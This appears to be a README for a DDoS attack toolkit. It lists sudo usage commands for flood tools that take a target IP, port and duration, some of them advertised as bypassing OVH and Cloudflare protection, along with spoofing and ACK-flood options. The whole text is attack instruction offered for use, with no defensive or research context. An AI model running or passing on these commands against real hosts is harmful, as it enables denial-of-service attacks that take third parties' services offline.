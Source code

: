 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip %port 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip %port %time udp

STD : sudo ./STD-NOSPOOF %ip %port

STCP : sudo ./STCP %ip %port 10 -1 %time ack

HEX : sudo ./HEX OVH %ip %port 300

NUKE-BYPASS : sudo ./HiperOVH %ip %port

CLOUDFLARE : sudo ./cloudflare %ip 10 -1 300
